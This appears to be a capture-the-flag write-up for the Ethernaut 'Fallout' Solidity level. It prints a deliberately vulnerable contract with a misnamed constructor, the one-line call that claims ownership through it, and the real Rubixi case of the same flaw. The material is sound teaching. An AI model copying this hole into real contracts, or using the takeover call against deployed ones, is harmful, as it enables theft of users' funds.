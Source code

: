 # Fallout
_difficulty 2/10_

Claim ownership of the contract below to complete this level.  
Things that might help  
- Solidity Remix IDE  

## Sources

```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';
import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract Fallout is Ownable {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## Level author
Alejandro Santander  
palebluedot@gmail.com  
https://github.com/ajsantander  

## Solution

1. Constructor method has different name from the contract.  
`await contract.Fal1out({value: toWei(0)});`  

2. Check if player is contract owner.  
`player === await contract.owner()`  
true

3. Submit Instance 🎉

## Lesson

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?  


Well... Not quite.  


The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:  
```javascript
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
